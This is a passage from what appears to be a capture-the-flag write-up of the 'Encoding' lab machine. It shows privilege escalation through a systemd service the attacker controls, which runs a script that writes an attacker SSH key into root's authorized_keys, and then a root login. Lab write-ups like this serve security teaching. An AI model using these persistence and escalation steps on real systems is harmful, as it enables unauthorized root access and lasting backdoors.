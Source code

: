 
As www-data I’ll verify it’s correct:

    
    
    www-data@encoding:/etc/systemd/system$ cat 0xdf.service 
    [Unit]
    Description=0xdf command service
    
    [Service]
    ExecStart=/tmp/0xdf
    Type=simple
    Restart=always
    
    [Install]
    WantedBy=multi-user.target
    

`/tmp/0xdf` will look very similar to the git hook from earlier:

    
    
    #!/bin/bash
    
    mkdir -p /root/.ssh
    chmod 700 /root/.ssh
    echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys
    chmod 600 /root/.ssh/authorized_keys
    touch /tmp/script_ran
    

And I’ll make sure to `chmod +x /tmp/0xdf`.

Now I’ll restart the service, and `script_ran` is now present on the box:

    
    
    svc@encoding:/etc/systemd$ sudo systemctl restart 0xdf
    svc@encoding:/etc/systemd$ ls -l /tmp/script_ran 
    -rw-r--r-- 1 root root 0 Apr 12 17:19 /tmp/script_ran
    

That’s a good indication that the script executed as root.

SSH works as well:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@haxtables.htb
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
    ...[snip]...
    root@encoding:~#
    

And I can get `root.txt`:

    
    
    root@encoding:~# cat root.txt
    52e6c280************************
    

## Beyond Root

